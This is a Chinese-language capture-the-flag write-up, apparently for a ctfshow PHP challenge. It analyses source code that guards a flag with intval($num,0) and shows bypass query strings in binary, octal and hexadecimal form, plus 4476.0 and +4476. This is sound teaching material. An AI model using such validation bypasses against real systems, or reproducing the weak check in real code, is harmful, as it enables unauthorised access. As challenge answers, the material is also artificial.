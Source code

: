 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 16:06:11
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}

```

分析源码



get传参num

强类型比较是否为4476

是的话报错

利用intval函数判断num是否为4476，是的话返回flag







简单介绍一下intval函数

```
intval($var,$base)
其中var必选，base可选
将$num的值转换成十进制整数
这里base=0，则表示根据开始的数字决定使用的进制
0x或者0X开头表示使用十六进制
0b表示使用二进制
0开头则使用八进制
否则使用十进制
```



![image-20250408130827557](./assets/image-20250408130827557.png)



### 第一种

进制绕过

二进制

```
?num=0b1000101111100
```

![image-20250408130928930](./assets/image-20250408130928930.png)



八进制

```
?num=010574
```

![image-20250408131001689](./assets/image-20250408131001689.png)



十六进制

```
?num=0x117c
```

![image-20250408131023331](./assets/image-20250408131023331.png)





### 第二种

由于提交的默认参数值为字符串类型，因此我们也可以直接输入

```
?num=4476.0
```

![image-20250408131246359](./assets/image-20250408131246359.png)

```
?num=+4476
```

![image-20250408131309072](./assets/image-20250408131309072.png)
